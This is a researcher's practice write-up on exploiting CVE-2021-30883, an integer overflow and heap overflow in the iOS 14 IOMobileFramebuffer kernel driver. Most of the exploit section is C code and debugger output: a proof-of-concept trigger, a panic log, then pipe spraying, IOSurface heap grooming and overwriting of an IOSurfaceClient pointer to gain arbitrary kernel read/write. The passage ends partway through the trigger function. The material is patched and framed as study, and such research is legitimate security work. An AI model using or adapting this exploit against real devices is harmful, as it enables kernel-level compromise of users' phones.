





# [Practice] Exploiting CVE-2021-30883 (iOS 14)

# Investigating the bug / How to trigger

Although security researcher Saar Amar wrote detailed write-up about 4 years ago, I plan to execute PoC code myself to verify it with my own eyes. This vulnerability was exploited in the wild and was patched in iOS 15.0.2 and 14.8.1. It only affects devices equipped with Apple A10X, A11, A12(X/Z), and A13 chips.

The PoC code is as follows:

```c
//
//  poc.c
//  iomfb_poc
//
//  Created by Saar Amar.
//

#include "poc.h"

io_connect_t get_iomfb_uc(void) {
    kern_return_t ret;
    io_connect_t shared_user_client_conn = MACH_PORT_NULL;
    int type = 0;
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                       IOServiceMatching("AppleCLCD"));
    
    if(service == MACH_PORT_NULL) {
        printf("[-] failed to open service\n");
        return MACH_PORT_NULL;
    }
    
    printf("[*] AppleCLCD service: 0x%x\n", service);

    ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
    if(ret != KERN_SUCCESS) {
        printf("[-] failed to open userclient: %s\n", mach_error_string(ret));
        return MACH_PORT_NULL;
    }
    
    printf("[*] AppleCLCD userclient: 0x%x\n", shared_user_client_conn);
    
    return shared_user_client_conn;
}

void do_trigger(io_connect_t iomfb_uc) {
    kern_return_t ret = KERN_SUCCESS;
    size_t input_size = 0x180;
    
    uint64_t scalars[2] = { 0 };

    char *input = (char*)malloc(input_size);
    if (input == NULL) {
        perror("malloc input");
        return;
    }
    
    memset(input, 0x41, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x40000001;   // #iterations in the outer loop (new_from_data)
    pArr[3] = 2;
    pArr[8] = 2;
    pArr[89] = 4;           // #iterations in the inner loop (set_table)
    
    /* each call trigger a flow with a lot of calls to set_table(), while
       each set_table() flow will do a loop of only 4 iterations*/
    for (size_t i = 0; i < 0x10000; ++i) {
        ret = IOConnectCallMethod(iomfb_uc, 78,
                            scalars, 2,
                            input, input_size,
                            NULL, NULL,
                            NULL, NULL);
    }

    if (ret != KERN_SUCCESS) {
        printf("s_set_block failed, ret == 0x%x --> %s\n", ret, mach_error_string(ret));
    } else {
        printf("success!\n");
    }
    
    free(input);
}

void poc(void) {
    io_connect_t iomfb_uc = get_iomfb_uc();
    if (iomfb_uc == MACH_PORT_NULL) {
       return;
    }
    
    do_trigger(iomfb_uc);
    
    // we don't reach here, but for completness
    IOServiceClose(iomfb_uc);
}

int main(void) {
    poc();
}
```

Additionally, when triggering PoC on iOS 14.0 beta5 / QEMUAppleSilicon environment, `IOMFB::TableCompensator::BilerpGainTable::new_from_data` function calls `kalloc_ext`. Panic occurs at this point when attempting to allocate kernel memory from `kext.kalloc.80` zone.

```c
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #2, stop reason = breakpoint 1.1
    frame #0: 0xfffffff0097db944 kernel.research.iphone12b`panic
kernel.research.iphone12b`panic:
->  0xfffffff0097db944 <+0>:  pacibsp 
    0xfffffff0097db948 <+4>:  sub    sp, sp, #0x20
    0xfffffff0097db94c <+8>:  stp    x29, x30, [sp, #0x10]
    0xfffffff0097db950 <+12>: add    x29, sp, #0x10
Target 0: (kernel.research.iphone12b) stopped.
(lldb) bt
* thread #2, stop reason = breakpoint 1.1
  * frame #0: 0xfffffff0097db944 kernel.research.iphone12b`panic
    frame #1: 0xfffffff008127ee4 kernel.research.iphone12b`zone_element_not_clear_panic + 60
    frame #2: 0xfffffff007a9156c kernel.research.iphone12b`zalloc_validate_element + 236
    frame #3: 0xfffffff007a94d34 kernel.research.iphone12b`zcache_alloc_from_cpu_cache + 292
    frame #4: 0xfffffff007a92d3c kernel.research.iphone12b`zalloc_ext + 60
    frame #5: 0xfffffff007a3bf74 kernel.research.iphone12b`kalloc_ext + 152
    frame #6: 0xfffffff009773fd4 kernel.research.iphone12b`IOMFB::TableCompensator::BilerpGainTable::new_from_data(IOMFBLUTTableState const*, int, unsigned int, int const*, int const*, int) + 192
    frame #7: 0xfffffff0097759a0 kernel.research.iphone12b`IOMFB::TempCompHandler::set(IOMFB_0D_Temp_State const*, unsigned int) + 1064
    frame #8: 0xfffffff0096de958 kernel.research.iphone12b`IOMFB::GateManager::runAction(IOMFBStatus (*)(OSObject*, void*, void*, void*, void*), void*, void*, void*, void*)::$_1::operator()(OSObject*, void*, void*, void*, void*) const + 112
    frame #9: 0xfffffff0096de8dc kernel.research.iphone12b`IOMFB::GateManager::runAction(IOMFBStatus (*)(OSObject*, void*, void*, void*, void*), void*, void*, void*, void*)::$_1::__invoke(OSObject*, void*, void*, void*, void*) + 64
    frame #10: 0xfffffff008050900 kernel.research.iphone12b`IOCommandGate::runAction(int (*)(OSObject*, void*, void*, void*, void*), void*, void*, void*, void*) + 220
    frame #11: 0xfffffff0096ddedc kernel.research.iphone12b`IOMFB::GateManager::runAction(IOMFBStatus (*)(OSObject*, void*, void*, void*, void*), void*, void*, void*, void*) + 340
    frame #12: 0xfffffff00979d8a0 kernel.research.iphone12b`IOMFB::PBTBlockHandler<IOMFB_0D_Temp_State>::set(void const*, unsigned long, unsigned long long const*, unsigned int, IOMFB::Gate*, void const*, unsigned int) const + 264
    frame #13: 0xfffffff0097c1994 kernel.research.iphone12b`IOMFB::PBTBlockMgr::exec(IOMFB_Parameter_Block_Type, IOMFB::PBTBlockMgr::Op, task*, void const*, IOMFBStatus (IOMFB::PBTBlockHandlerGeneric*, void*, unsigned int) block_pointer, bool) const + 432
    frame #14: 0xfffffff0097c1c00 kernel.research.iphone12b`IOMFB::PBTBlockMgr::set_block(task*, IOMFB_Parameter_Block_Type, void const*, unsigned long, unsigned long long const*, unsigned int, bool) const + 144
    frame #15: 0xfffffff0097bf3d0 kernel.research.iphone12b`UnifiedPipeline::set_block(task*, unsigned int, unsigned int, unsigned long long const*, unsigned int, unsigned char const*, unsigned long) + 28
    frame #16: 0xfffffff0096e29cc kernel.research.iphone12b`IOMobileFramebufferUserClient::s_set_block(IOMobileFramebufferUserClient*, void*, IOExternalMethodArguments*) + 312
    frame #17: 0xfffffff00808cb78 kernel.research.iphone12b`IOUserClient::externalMethod(unsigned int, IOExternalMethodArguments*, IOExternalMethodDispatch*, OSObject*, void*) + 612
    frame #18: 0xfffffff0096e141c kernel.research.iphone12b`IOMobileFramebufferUserClient::externalMethod(unsigned int, IOExternalMethodArguments*, IOExternalMethodDispatch*, OSObject*, void*) + 292
    frame #19: 0xfffffff00809a98c kernel.research.iphone12b`is_io_connect_method + 708
    frame #20: 0xfffffff007b25190 kernel.research.iphone12b`_Xio_connect_method + 408
    frame #21: 0xfffffff007a30e9c kernel.research.iphone12b`ipc_kobject_server + 752
    frame #22: 0xfffffff007a021d8 kernel.research.iphone12b`ipc_kmsg_send + 292
    frame #23: 0xfffffff007a1d810 kernel.research.iphone12b`mach_msg_overwrite_trap + 284
    frame #24: 0xfffffff007b4a434 kernel.research.iphone12b`mach_syscall + 396
    frame #25: 0xfffffff007b57094 kernel.research.iphone12b`sleh_synchronous + 1780
    frame #26: 0xfffffff00811c5f4 kernel.research.iphone12b`fleh_synchronous + 40
    frame #27: 0x00000001ae355224
    frame #28: 0x00000001af456ee4
    frame #29: 0x00000001af3dee18
    frame #30: 0x00000001002a4178
    frame #31: 0x00000001002a4238
    frame #32: 0x00000001002a4260
    frame #33: 0x00000001ae383e60

...
panic(cpu 1 caller 0xfffffff008127ee4): "Zone element 0xffffffe19ce185f0 was modified after free for zone kext.kalloc.80: " "Expected element to be cleared"
Debugger message: panic
Memory ID: 0x0
OS release type: Beta
OS version: 18A5351d
Kernel version: Darwin Kernel Version 20.0.0: Wed Aug 12 22:56:55 PDT 2020; root:xnu-7195.0.33~64/RELEASE_ARM64_T8030
Kernel UUID: FDDAF386-4EA2-35FC-8235-1F167AEFD6F3
iBoot version: ChefKiss QEMU Apple Silicon
secure boot?: YES
Paniclog version: 13
Kernel text base:  0xfffffff007004000
mach_absolute_time: 0x1c00bbfa
Epoch Time:        sec       usec
  Boot    : 0x694d496f 0x00079126
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x694d4980 0x000db633

Panicked task 0xffffffe19ccadf40: 75 pages, 1 threads: pid 124: CVE-2021-30883
...
```

Let's trace execution flow to vulnerable function while kernel debugging.

First, examining call path, selector 78 is used to invoke `IOMobileFramebufferUserClient::s_set_block`.

```c
ret = IOConnectCallMethod(iomfb_uc, 78, ...)
```

Then, sub-selector is passed as input to branch to case 3 statement within `IOMFB::TempCompHandler::set`.

```c
    pArr[0] = 0x3;          // sub-sub selector
    ...
    
    /* each call trigger a flow with a lot of calls to set_table(), while
       each set_table() flow will do a loop of only 4 iterations*/
    for (size_t i = 0; i < 0x10000; ++i) {
        ret = IOConnectCallMethod(iomfb_uc, 78,
```

Illustrating path from `IOMobileFramebufferUserClient::s_set_block` to vulnerable function `IOMFB::TableCompensator::BilerpGainTable::new_from_data` is complex, but it is depicted as follows:


Let's examine vulnerable function, `IOMFB::TableCompensator::BilerpGainTable::new_from_data`.

When allocating kernel memory, code calculates required size through various operations and calls `operator new[]` to perform the allocation. `operator new[]` allocates memory using `KHEAP_KEXT` type. **The critical issue here is that there is no integer overflow validation performed during these calculations anywhere in call stack leading up to this function!** 

Looking at the code responsible for these operations, variables `v14`, `v15`, and `a3` can all be controlled via user input, ultimately resulting in integer overflow of `0x44`.

Next, let's examine the call to `IOMFB::TableCompensator::BilerpGainTable::set_table`. Here, **wild-copy** occurs, where user data is written into allocated kernel memory. Values are written over total of 4 iterations, and this loop count can also be controlled. 

In latter part of `IOMFB::TableCompensator::BilerpGainTable::new_from_data`, the code repeatedly calls `IOMFB::TableCompensator::BilerpGainTable::set_table` function total of `0x40000001` times, causing continuous wild-copies.

As a result, although `0x44` bytes of kernel memory were allocated, **Heap Overflow** occurs because additional 28 bytes were written (writing total of 60 bytes)."



# Exploit (iOS 14.x)

## 1. Exploit idea

Source: [https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf](https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf)

I obtained hint regarding exploitation method from Zer0con 2022 presentation. The core idea is to arbitrarily control data of `IOSurfaceClient` object using **Heap Overflow** vulnerability.



As discussed in my previous write-up, **"[Practice] Understanding CVE-2021-30937(multicast_bytecopy) (macOS 12.0.1 / iOS 15)"** this object is critical element for achieving kernel read/write primitives. **Because we can arbitrarily control `+0x40` offset (`IOSurface` pointer) of `IOSurfaceClient` element**, it provides sufficient level of indirection to perform arbitrary kernel r/w.

Therefore, **we must overwrite `+0x40` offset of `IOSurfaceClient` with kernel address pointing to data we can arbitrarily control.**

If we create as many pipes as possible and write `(kernel page size - 1)` bytes to them, kernel memory is allocated with `KHEAP_DATA_BUFFERS` type. We then profile allocated addresses and use one of these profiled addresses for overwrite. Consequently, instead of pointing to genuine `IOSurface` object, it will point to one of allocated pipe kernel data buffers.



The `IOSurfaceClient` object is allocated kernel memory of type `KHEAP_KEXT` within `IOSurfaceClient::MetaClass::alloc`. Since allocation size is 152 bytes, it is specifically allocated from `kext.kalloc.160` zone.

```cpp
OSObject *__fastcall IOSurfaceClient::MetaClass::alloc(IOSurfaceClient::MetaClass *this)
{
  OSObject *v1; // x19
  OSObject *v2; // x0

  v1 = (OSObject *)OSObject::operator new(152u);// kalloc from KHEAP_KEXT
  v2 = OSObject::OSObject(v1, &IOSurfaceClient::gMetaClass);
  v2->__vftable = (OSObject_vtbl *)&off_FFFFFFF0078319C8;
  v2[4].__vftable = 0;
  *(_QWORD *)&v2[4].retainCount = 0;
  OSMetaClass::instanceConstructed(&IOSurfaceClient::gMetaClass);
  return v1;
}
```

In PoC code, by changing values of `pArr[2]` and `pArr[89]` to `0x40000000` and `40` respectively, we can increase kernel allocation size from the original `0x44` to `0xa0` (160).

While we could manually verify allocation size through trial and error—tweaking values and checking panic logs — let's instead use kernel debugging to examine exactly how the allocation size is calculated.

```cpp
...
    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x40000000;   // #iterations in the outer loop (new_from_data)
    pArr[3] = 2;
    pArr[8] = 2;
    pArr[89] = 40;           // #iterations in the inner loop (set_table)
    
    /* each call trigger a flow with a lot of calls to set_table(), while
       each set_table() flow will do a loop of only 4 iterations*/
    for (size_t i = 0; i < 0x10000; ++i) {
        ret = IOConnectCallMethod(iomfb_uc, 78,
                            scalars, 2,
                            input, input_size,
                            NULL, NULL,
                            NULL, NULL);
    }
...
```

The kernel allocation size is calculated as shown in image below,

```cpp
>>> hex((12 * 40 * 0x40000000 + 4 * (40 + 0x40000000)) & 0xffffffff)
'0xa0'
```

By exceeding 160-byte allocation zone, 
I was able to overwrite additional 0x64 bytes with arbitrary data of my choice.



Crucially, the question is **which offset** within the input data must be manipulated **to arbitrarily control the `+0x40` position (the `IOSurface` pointer) of the `IOSurfaceClient` element.**

After inputting arbitrary values into `*(uint64_t *)(input + 0x150)` and `*(uint64_t *)(input + 0x158)`, the results were as follows.

Examining *next* 160-byte zone following allocated kernel region, the value `0x1339134085868788` appears at the `+0x40` offset.

In other words, this value consists of lower 4 bytes of `*(uint64_t *)(input + 0x158)` combined with lower 4 bytes of `*(uint64_t *)(input + 0x150)`.

```cpp
	*(uint64_t *)(input + 0x150) = 0x8182838485868788;
	*(uint64_t *)(input + 0x158) = 0x1337133813391340;	// to control IOSurface ptr

[0xffffffe4cc610fa0+0x000] 41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |  AAAAAAAAAAAAAAAA 
[0xffffffe4cc610fa0+0x010] 41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |  AAAAAAAAAAAAAAAA 
[0xffffffe4cc610fa0+0x020] 41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |  AAAAAAAAAAAAAAAA 
[0xffffffe4cc610fa0+0x030] 41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |  AAAAAAAAAAAAAAAA 
[0xffffffe4cc610fa0+0x040] 88 87 86 85 40 13 39 13  38 13 37 13 41 41 41 41  |  ....@.9.8.7.AAAA <--
[0xffffffe4cc610fa0+0x050] 41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |  AAAAAAAAAAAAAAAA 
[0xffffffe4cc610fa0+0x060] 41 41 41 41 00 00 00 00  00 00 00 00 00 00 00 00  |  AAAA............ 
```

Thus, using code below, I was able to arbitrarily control 8-byte value at `+0x40` offset.

```cpp
	*(uint64_t *)(input + 0x150) = 0x8182838400000000 + ((KHEAP_DATA_MAPPABLE_LOC+0x10) & 0xffffffff);
	*(uint64_t *)(input + 0x158) = 0x1337133813391340;	
	*(uint64_t *)(input + 0x154) = KHEAP_DATA_MAPPABLE_LOC+0x10;
```

## 2. Profiling before pipe spraying

Before exploiting, first we must obtain and profile kernel addresses allocated via pipe spraying.

We create `0x320` pipes and fill each one with the value `0x42` up to size of `(0x4000 - 1)`.
Internally, this effectively triggers `0x320` kernel memory allocations from `data.kalloc.16384` (type: `KHEAP_DATA_BUFFERS`) zone.

```cpp
int write_data_pipes(int *pipefds, int total_pipes, void* data, size_t data_sz) {
	void *pipebuf = malloc(kernel_page_size);
    bzero(pipebuf, kernel_page_size);

	memcpy(pipebuf, (void *)data, data_sz);
    for (int i = 0; i < total_pipes; i++)
    {
		int rfd = pipefds[2 * i];
        int wfd = pipefds[2 * i + 1];
		
		if(data_sz >= 0x3f10) {
			*(uint16_t *)(pipebuf + 0x3f04) = rfd;
			*(uint16_t *)(pipebuf + 0x3f06) = wfd;
		}

        size_t written = write(wfd, pipebuf, kernel_page_size - 1);
        
        if (written != kernel_page_size - 1)
        {
            total_pipes = i;
            printf("total_pipes is now: %d", total_pipes);
            break;
        }
    }

	free(pipebuf);

	return 0;
}

#if ENABLE_HELPER && PROFILLING_KHEAP_DATA_BUFFERS
int obtain_pipes_kaddr(int *pipefds, int total_pipes) {
	
	uint64_t p_fd = tfp0_kread64(proc_of_pid(getpid()) + off_p_pfd); 
	printf("p_fd = 0x%llx\n", p_fd);;
	uint64_t fd_ofiles = tfp0_kread64(p_fd);
	printf("fd_ofiles = 0x%llx\n", fd_ofiles);

	uint64_t last_pipe_base = 0;

	for (int i = 0; i < total_pipes; i++) {
        int rfd = pipefds[2 * i];
		uint64_t rpipe_fp = tfp0_kread64(fd_ofiles + rfd * 8);
		uint64_t r_fp_glob = tfp0_kread64(rpipe_fp + off_fp_fglob);
		uint64_t rpipe = tfp0_kread64(r_fp_glob + off_fg_data); 
		uint64_t pipe_base = tfp0_kread64(rpipe + off_pb_buffer); 
		printf("KHEAP_DATA_BUFFERS KALLOCATED ADDR = 0x%llx\n", pipe_base);
		
		last_pipe_base = pipe_base;
	}

	printf("[!] Try setting macro KHEAP_DATA_MAPPABLE_LOC to 0x%llx\n", last_pipe_base - (0x4000*(total_pipes / 2)));

	return 0;
}
#endif

...

int main(int argc, char *argv[], char *envp[]) {
	offsets_init();

#if ENABLE_HELPER
	if(init_tfp0() == KERN_SUCCESS) {
		printf("tfp0: 0x%" PRIx32 "\n", tfp0);

		int r = tfp0_get_kbase(&tfp0_kbase);
    	printf("tfp0_get_kbase ret: %d, tfp0_kbase: 0x%llx, tfp0_kslide: 0x%llx\n", r, tfp0_kbase, tfp0_kslide);

		init_kexecute();
#endif

...

	increase_file_limit();
#if ENABLE_HELPER && PROFILLING_KHEAP_DATA_BUFFERS
	int total_pipes_ = 0x320;
	int *pipefds_ = create_pipes(total_pipes_);

	void *pipe_data_ = malloc(kernel_page_size);
	memset(pipe_data_, 0x42, kernel_page_size);
	write_data_pipes(pipefds_, total_pipes_, pipe_data_, kernel_page_size);

	obtain_pipes_kaddr(pipefds_, total_pipes_);

	close_pipes(pipefds_, total_pipes_, false, 0, 0);

	goto cleanup;
#endif
...
```

The allocated kernel address of pipe can be represented as shown in picture below.

Iterate starting from `kernproc` to identify exploiting process (selfproc) among various processes by checking PID.
Then, by sequentially accessing `p_fd` field of `proc` structure to reach `pipe_base`, we can retrieve pipe's allocation address.



After jailbreaking via checkra1n and verifying the profiling address through pipe spraying, I obtained the address `0xffffffe4ce978000` (based on my iPhone 8 running iOS 14.4.2).

```cpp
#define KHEAP_DATA_MAPPABLE_LOC 0xffffffe4ce978000
```

## 3. Pipe spraying

We now proceed with pipe spray to execute actual exploit. If everything goes as expected, one of various kernel addresses allocated by the pipes will point to address `0xffffffe4ce978000`.

To later distinguish corrupted `IOSurface` object, we write the value `(KHEAP_DATA_MAPPABLE_LOC + 0x3f04) - 0x14` to `*(uint64_t *)(pipe_data + 0x10 + 0xC0)`. This allows us to read data from kernel address `KHEAP_DATA_MAPPABLE_LOC + 0x3f04` via `IOSurface::get_use_count`.

Then, when performing `write_data_pipes`, I wrote data so that pipe's file descriptor value can be obtained when reading from that kernel address.

```cpp
int write_data_pipes(int *pipefds, int total_pipes, void* data, size_t data_sz) {
	void *pipebuf = malloc(kernel_page_size);
    bzero(pipebuf, kernel_page_size);

	memcpy(pipebuf, (void *)data, data_sz);
    for (int i = 0; i < total_pipes; i++)
    {
		int rfd = pipefds[2 * i];
        int wfd = pipefds[2 * i + 1];
		
		if(data_sz >= 0x3f10) {
			*(uint16_t *)(pipebuf + 0x3f04) = rfd;
			*(uint16_t *)(pipebuf + 0x3f06) = wfd;
		}

        size_t written = write(wfd, pipebuf, kernel_page_size - 1);
        
        if (written != kernel_page_size - 1)
        {
            total_pipes = i;
            printf("total_pipes is now: %d", total_pipes);
            break;
        }
    }

	free(pipebuf);

	return 0;
}

int main(int argc, char *argv[], char *envp[]) {
  ...
	printf("Exploiting CVE-2021-30883 (first journey from poc to exploit by @wh1te4ever!)\n");

	// pipe spray
	int total_pipes = 0x320;
	int *pipefds = create_pipes(total_pipes);

	void *pipe_data = malloc(kernel_page_size);
	memset(pipe_data, 0x42, kernel_page_size);

	*(uint64_t *)(pipe_data + 0x10 + 0xC0) = (KHEAP_DATA_MAPPABLE_LOC + 0x3f04) - 0x14; //will be read by IOSurface::get_use_count, will read data from kernel addr(KHEAP_DATA_MAPPABLE_LOC + 0x3f04) 

	write_data_pipes(pipefds, total_pipes, pipe_data, kernel_page_size);
...
```

## 4. IOSurface spraying / Hole punching

We allocate approximately 1,600 `IOSurfaceClient` objects by repeatedly calling `IOSurfaceRoot_create_surface_fast`.

Then, we call `IOSurfaceRoot_release_surface` to deallocate `IOSurfaceClient` objects interspersed within `IOSurfaceClients` array, effectively punching holes in the memory.

```cpp
int main(int argc, char *argv[], char *envp[]) {
  ...
	// iosurface & iomfb
	mach_port_t iosurface_uc = IOSurfaceRoot_init();
	io_connect_t iomfb_uc = get_iomfb_uc();

	...
	
	// spray IOSurface
	for (int i = 0; i < 0x1000; ++i)
    {
        uint32_t last_id = IOSurfaceRoot_create_surface_fast(iosurface_uc);
		    gIOSurface_ids[gIOSurface_id_count] = last_id;
        gIOSurface_id_count++;
        if ((0x3400) <= (last_id * sizeof(uint64_t)))
        {
            break;
        }
    }

	// punch hole kext.kalloc.160, free! (heap fengshui)
	// Thanks @jaakerblom for release Zer0con 2022 slide, that gives me idea!
	uint32_t last_free_surfid = 0;
    for (int32_t surf_idx = 0; surf_idx < gIOSurface_id_count; surf_idx++)
    {
        if(surf_idx >= 100 && surf_idx % 100 == 0) {
            IOSurfaceRoot_release_surface(iosurface_uc, gIOSurface_ids[surf_idx]);
            printf("release, iosurf_id = 0x%x\n", gIOSurface_ids[surf_idx]);
            last_free_surfid = gIOSurface_ids[surf_idx];
            gIOSurface_ids[surf_idx] = 0;
        }
    }
    ...
```

## 5. Triggering vulnerability / Find out corrupted IOSurfaceClient

When `trigger_vuln` is executed, kernel memory is allocated from `kext.kalloc.160` zone. Simultaneously, `+0x40` offset of one of `IOSurfaceClient` objects is overwritten with profiled `KHEAP_DATA_MAPPABLE_LOC` address.

Finally, starting from last deallocated `surfid`, we incrementally increase or decrease `surfid` while checking the return value of `IOSurfaceRoot_get_surface_use_count` each time. This allows us to retrieve the file descriptors required for pipe reading and writing.

From this point on, arbitrary kernel r/w operations are possible via this specific `IOSurfaceClient`.

```cpp
int trigger_vuln(io_connect_t iomfb_uc) {

	//trigger oob write kext.kalloc.160
	//Thanks @AmarSaar for providing detail write-up and poc; https://github.com/saaramar/IOMFB_integer_overflow_poc
	kern_return_t ret = KERN_SUCCESS;
    size_t input_size = 0x180;
    
